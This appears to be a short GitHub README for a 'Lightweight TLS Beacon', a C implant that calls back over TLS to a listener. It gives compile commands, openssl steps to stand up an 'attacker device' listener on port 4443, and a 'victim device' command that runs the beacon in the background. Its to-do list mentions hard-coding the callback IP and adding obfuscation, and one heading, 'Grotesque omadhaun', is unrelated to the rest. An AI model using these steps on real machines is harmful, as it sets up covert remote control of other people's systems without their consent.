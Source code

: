 # Lightweight-TLS-Beacon
<h1>Grotesque omadhaun</h1>
C based beacon that makes use of TLS. Should be simple enough to throw into... most places.

<p>TODO: Show all output Formatting<br>
      Scheduling in<br>
      Option to hard code IP/Port into build process<br>
      Maybe do some obfuscation<br>
</p>
Usage: 

```gcc ./beacon.c beacon -lssl -lcrypto```

Attacker device: ```openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes```
```openssl s_server -accept 4443 -cert cert.pem -key key.pem```

Victim device: ```chmod -x ./beacon; ./beacon &```
